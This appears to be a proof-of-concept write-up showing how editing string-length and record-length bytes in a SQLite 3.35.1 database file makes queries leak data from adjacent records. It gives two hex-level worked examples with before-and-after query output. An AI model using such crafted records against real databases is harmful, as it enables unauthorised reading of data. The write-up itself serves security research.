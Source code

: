 # Record Leaking

So this is a POC guide for a cool trick I found in sqlite. it's a bit niche, however it does have some imaginable applications. Effectively using maliciously crafted records, you can leak subsequent records. This was done in sqlite3 version `3.35.1`, which at the time of this writing, is the latest version (in case you don't believe me):

```
$    ./sqlite3
SQLite version 3.35.1 2021-03-15 16:53:57
Enter ".help" for usage hints.
```

There will be a brief explanation, followed by two examples of this. For the examples, check in the `examples` file for the db files, along with the executable.

## Explanation

So sqlite is using a paging mechanism in order to handle it's memory. There is some custom memory allocation functionality for dealing with this. The database files that save the database are just straight memory pages. As such, this attack revolves around overwriting particular values in the database file, so when we query one record, it will leak data past the record. This is why it's a bit of a niche attack. However it can still have some applications, such as providing a new way to exfil data from the perspective of a client querying a database, or maybe if you're trying to access data that is only in memory (I haven't reversed out the in memory functionality, so not too sure on the feasibility of that), or any number of weird circumstances.

I'll release more docs about how exactly the internal memory layout and some other functionalities work, but this is the gist. For records that store strings, they store a value which represents the size of the string. When a record goes to read a string, it looks at that size and takes its word for it. We will just overwrite that value with a larger value. This will expand the string, and can either move it or other columns into subsequent records. We will also expand the size of the record itself to match it. This is to pass a series of checks it does, to hopefully prevent shenanigans like this. Then when we query that record, we will also get data from proceeding records.

## Example 0

This is going to be a simple example where we just leak 1 byte from the next record's metadata. This is the table we will be working with:

```
sqlite> CREATE TABLE x (y varchar(100), z int);
```

With these records:

```
sqlite> select * from x;
15935728|100
15935728|200
75395128|300
15935728|400
15935728|500
```

Now for this, we will edit the record with the `75395128`. Currently, it has these bytes:

```
0D 03 03 1D 02 37 35 33 39 35 31 32 38 01 2C
```

Which have these specific values:

```
Record Length: 0x0D (13 bytes)
Length of String: 0x08 (((0x1D - 12) / 2), check other pages for explanation)
```

We will change these values to be this:

```
Record Length: 0x0E
Length of String: 0x1F (string length of 9)
```

Which becomes these bytes. So effectively we just extended the string length by one, along with the length of the record:

```
0E 03 03 1F 02 37 35 33 39 35 31 32 38 01 2c
```

Now the records look like this:

```
sqlite> select * from x;
15935728|100
15935728|200
75395128|11277
15935728|400
15935728|500
```

Now the `z` int value for the `75395128` has changed to be `11277`, which in hex is `0x2c0d`. Effectively what we have done is we moved this value over by one byte, so the `0x2c` is the higher byte. Also if we look at the next record over, we see that it starts with `0x0d`, which we are leaking here. The bytes that end this record, and move onto the next look like this:

```
01 2C 0D 02 03
```

The `0x0D` value we are leaking from the next record signifies the size of that record.


## Example 1

For this example, we have this table:

```
sqlite> CREATE TABLE x (y varchar(100));
```

With these records:
```
sqlite> select * from x;
15935728
15935728
75395128
15935728
15935728
```

So for here, we are going to leverage the `75395128` row to leak part of the following row. For that, let's first take a look at the bytes that comprise those records:

```
0A 03 02 1D 37 35 33 39 35 31 32 38
0A 02 02 1D 31 35 39 33 35 37 32 38
```

Now for this, we are simply going to extend the length of the string column, into the next row. I want to leak the `159` from the proceeding row. So we can see that the `159` (`31 35 39`) is `4` bytes away from the end of the string. So to leak those three bytes, we will need to extend the string by `4 + 3 = 7` bytes. As such we will need to increase the size of the record, and the length of the string by seven. So the record length will be `0x11`, and the string length will be `0x0F` (which encoded in sqlite3 format is `0x2B`):


```
11 03 02 2B 37 35 33 39 35 31 32 38
0A 02 02 1D 31 35 39 33 35 37 32 38
```

Now one thing to note, there is a newline character `0x0A` in between them. As such, we should also leak a newline. And when we try running a query, we see that we are getting a record leak:

```
sqlite> select * from x;
15935728
15935728
75395128
159
15935728
15935728
```
